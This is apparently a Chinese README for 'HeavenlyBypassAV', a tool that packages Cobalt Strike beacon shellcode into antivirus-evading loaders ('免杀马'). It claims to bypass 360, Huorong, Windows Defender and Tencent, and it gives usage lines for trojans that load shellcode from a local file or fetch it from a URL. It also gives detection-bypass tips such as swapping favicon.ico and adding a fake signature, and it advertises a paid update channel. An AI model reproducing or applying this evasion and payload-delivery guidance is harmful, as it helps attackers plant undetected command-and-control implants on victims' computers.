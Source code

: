 # HeavenlyBypassAV免杀工具

免责声明：本项目仅用于渗透测试练习中的教育和研究目的，目前处于测试阶段。禁止将其用于任何非法活动（包括黑市交易、未经授权的渗透攻击）！互联网不是法外之地！如果您选择使用此工具，则必须遵守上述要求。

Heavenly.exe是生成生成免杀加载器主进程，报毒正常，不含恶意代码。为保证免杀性，不公开源码，后续会更新

# 更新日志

## ⚠️6.0 
不打算免费发布此更新，会将其放在付费圈子中。圈子保持更新。
后续圈子可能会公开源码
![QQ截图20240301110037](新建文件夹/fc.jpg)

## 5.0
2025.1.18更新，解决杀软标记特征问题，QVM查杀可以替换favicon.ico绕过。

## 4.0
2024.11.25更新，解决火绒标记问题，新增添加签名功能，签名进程为CryptoCMD.exe，来源锦鲤安全。

下图为分离加载和网络加载的示例：
![QQ截图20240301110037](新建文件夹/11111.png)

## 3.0（重大更新）
2024.11.20更新，去除之前版本的VS2019配置，不需要配置。自带GCC编译，下载项目可直接生成免杀马，新增模块化选择生成操作。

本地分离马子使用：马子.exe code.bin  //code.bin可以改成任意格式

网络分离马子使用：马子.exe url链接 

示例：马子.exe http://www.baidu.com/1.txt

![QQ截图20240531145849](新建文件夹/20241120150642.png)

## 2.0
2024.06.20更新，解决生成马子免杀问题。

## 1.0

### 1.0 使用方式

只要把CS生成的64位无阶段beacon.bin文件放在和Heavenly.exe同一目录即可，然后可以双击运行exe，等待一会自动化生成。

**Tools目录**

tools目录为运行需要的依赖工具，其中favicon.ico可以替换，但替换后的文件名必须一样为favicon.ico。

## 免杀效果

**支持bypass 360、火绒、Windows Defender、腾讯电脑管家等，一键免杀上线CS**

![QQ截图20240301110037](新建文件夹/3.png)

![QQ截图20240301110134](新建文件夹/QQ截图20240301110134.png)

![微信截图_20240301112926](新建文件夹/微信截图_20240301112926.png)

![微信截图_20240301113311](新建文件夹/微信截图_20240301113311.png)

![微信截图_20240528214743](新建文件夹/微信截图_20240528214743.png)

![微信截图_20240301113311](新建文件夹/微信截图_20240301115227.png)


